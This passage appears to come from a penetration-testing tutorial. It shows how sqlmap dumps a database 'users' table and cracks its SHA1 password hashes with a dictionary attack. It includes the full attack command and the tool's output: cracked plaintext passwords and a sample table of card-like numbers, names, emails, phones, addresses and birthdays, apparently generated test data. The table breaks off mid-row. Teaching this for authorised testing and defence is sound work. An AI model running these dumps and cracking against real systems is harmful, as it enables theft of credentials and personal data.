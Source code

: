 ### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:

`sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users`

    ...SNIP...
    [14:31:41] [INFO] fetching columns for table 'users' in database 'master'
    [14:31:41] [INFO] fetching entries for table 'users' in database 'master'
    [14:31:41] [INFO] recognized possible password hashes in column 'password'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

    do you want to crack them via a dictionary-based attack? [Y/n/q] Y

    [14:31:41] [INFO] using hash method 'sha1_generic_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [14:31:41] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N

    [14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
    [14:31:41] [INFO] starting 8 processes 
    [14:31:41] [INFO] cracked password '05adrian' for hash  '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                          
    [14:31:41] [INFO] cracked password '1201Hunt' for hash  'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                          
    ...SNIP...
    [14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash     '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                            
    Database:   master                                                                                                                                                                                            
    Table: users
    [32 entries]
    +----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------  +-------------------------------------------------------------+---------------------------------------------------+
    | id | cc               | name              | email                       | phone        | address                | birthday          |     password                                                    | occupation                                        |
    +----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------  +-------------------------------------------------------------+---------------------------------------------------+
    | 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      |     9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
    | 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  |     10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
    | 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       |     a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
    | 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        |     b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
    | 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  |     aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
    | 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      |     d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
    | 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   |     2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
    | 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  |     f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)
